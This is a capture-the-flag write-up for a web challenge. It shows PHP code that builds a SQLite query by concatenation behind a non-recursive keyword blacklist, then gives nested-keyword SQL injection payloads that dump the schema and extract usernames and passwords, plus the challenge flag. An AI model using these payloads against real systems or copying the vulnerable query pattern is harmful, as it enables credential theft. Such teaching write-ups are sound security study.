 # Level 2
## Description
![image](https://user-images.githubusercontent.com/44528004/132695985-bdd36389-247f-4795-b05e-527c431abfea.png)

## Solution
The source of code of this challenge is:
```php
<?php
ini_set('display_errors', 'on');

class LevelTwo {
    public function doQuery($injection) {
        $pdo = new SQLite3('leveltwo.db', SQLITE3_OPEN_READONLY);

        $searchWords = implode (['union', 'order', 'select', 'from', 'group', 'by'], '|');
        $injection = preg_replace ('/' . $searchWords . '/i', '', $injection);

        $query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1';
        $getUsers = $pdo->query ($query);
        $users = $getUsers->fetchArray (SQLITE3_ASSOC);

        if ($users) {
            return $users;
        }

        return false;
    }
}

if (isset ($_POST['submit']) && isset ($_POST['user_id'])) {
    $lt = new LevelTwo ();
    $userDetails = $lt->doQuery ($_POST['user_id']);
}
?>
```

Here, the `implode()` function joins words from the array with a `|` as the separator. Next, the `preg_replace()` performs **find and replace** operation.
> The `/` and `/i` that wrap around the `$searchWords` is the syntax to declare a regular expression pattern. 

From these information, this application removes filtered words, namely `union`, `order`, `select`, `from`, `group`, `by`.
> Or we can see this on the challenge description.

## Exploitation
As we know that `union`, `select`, etc. will be replaced by an empty string `''`, so the payload `0 UNION SELECT 1, 1` will become `0  1, 1`. However, this function does not perform **recursive match and replace** which means `UNIUNIONON` will become `UNION`.  

What this in mind, we can craft a payload as follows:
```sql
0 UNIUNIONON SESELECTLECT name, sql FRFROMOM sqlite_master WHERE type='table'
```

This results in  

![image](https://user-images.githubusercontent.com/44528004/132819301-a05b1ec5-be10-4fff-969f-bf489e303cb7.png)  

Then, we craft another payload to extract `username` and `password`:
```sql
0 UNIUNIONON SESELECTLECT username, password FRFROMOM users
```

The result is  

![image](https://user-images.githubusercontent.com/44528004/132819409-0ddf56ac-88c5-424e-86d7-ced858ab4617.png)
> Flag: `WEBSEC{BecauseBlacklistsAreOftenAgoodIdea}`

